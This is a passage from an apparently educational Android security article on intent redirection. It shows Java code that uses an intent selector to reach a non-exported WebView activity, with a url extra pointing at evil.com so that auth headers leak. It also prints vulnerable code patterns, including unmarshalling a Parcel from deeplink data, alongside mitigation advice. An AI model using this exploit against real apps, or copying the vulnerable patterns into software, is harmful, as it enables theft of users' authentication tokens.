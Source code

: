 The attacker can specify a non-exported component via a selector

```java
Intent intent = new Intent();
intent.setSelector(new Intent().setClassName("com.victim", "com.victim.AuthWebViewActivity"));
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // "intent:#Intent;S.url=http%3A%2F%2Fevil.com%2F;SEL;component=com.victim/.AuthWebViewActivity;end"
```

And bypass the app’s protection against explicit intents. We therefore recommend filtering the selector as well

```java
intent.addCategory("android.intent.category.BROWSABLE");
intent.setComponent(null);
intent.setSelector(null);
```

But even complete filtering does not guarantee complete protection, because an attacker can create an implicit intent corresponding to the `intent-filter` of some non-exported activity. Example of an activity declaration:

```markup
<activity android:name=".AuthWebViewActivity" android:exported="false">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <data android:scheme="victim" android:host="secure_handler" />
    </intent-filter>
</activity>
```

```java
webView.loadUrl(getIntent().getData().getQueryParameter("url"), getAuthHeaders());
```

We therefore recommend checking that an activity is exported before it is launched.

## Other ways of creating insecure intents

Some app developers implement their **own intent parsers** (often to handle **deeplinks** or push messages), using e.g. **JSON** objects, strings or byte arrays, which either do not differ from the default or else present a great danger, because they may expand **`Serializable`** and `Parcelable` objects and they also allow insecure flags to be set. The security researcher may also encounter more exotic versions of intent creation, such as casting a byte array to a `Parcel` and then reading an intent from it

```java
Uri deeplinkUri = getIntent().getData();
if(deeplinkUri.toString().startsWith("deeplink://handle/")) {
    byte[] handle = Base64.decode(deeplinkUri.getQueryParameter("param"), 0);
    Parcel parcel = Parcel.obtain();
    parcel.unmarshall(handle, 0, handle.length);
    startActivity((Intent) parcel.readParcelable(getClassLoader()));
}
```

